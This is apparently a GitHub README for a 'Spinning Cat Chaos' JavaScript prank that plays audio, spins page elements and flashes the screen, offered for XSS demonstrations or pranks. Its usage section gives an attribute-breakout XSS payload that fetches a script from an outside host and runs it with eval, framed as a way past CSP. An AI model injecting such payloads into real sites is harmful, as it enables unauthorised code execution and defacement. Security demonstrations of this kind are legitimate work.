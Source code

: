 # 🐱 Spinning Cat Chaos Script

![Spinning Cat](https://raw.githubusercontent.com/orlyjamie/spinningcat/refs/heads/main/cat.gif)

This repository contains a chaotic JavaScript script that:
- Plays an audio file of a cat song.  
- Spawns spinning cat GIFs all over the page.  
- Flashes a neon green screen intermittently (warning).  
- Makes all elements on the page spin.  

Perfect for XSS demonstrations or just to prank your friends!

---

## 🚀 Usage

### 1. Direct Link
You can directly embed the script using this URL:

```html
<script src="https://meowww.lol/cat.js"></script>
<script src="https://raw.githubusercontent.com/LuemmelSec/spinningcat/refs/heads/main/cat.js"></script>
```

### 2. Fetch and Execute Inline
If external scripts are blocked by CSP, try this:

```html
"><script>fetch('https://meowww.lol/cat.js').then(r=>r.text()).then(eval)</script>
```

# 💬 Contact
https://x.com/theonejvo

https://www.linkedin.com/in/theonejvo/

Enjoy the chaos! 🐱🎶💚🔄
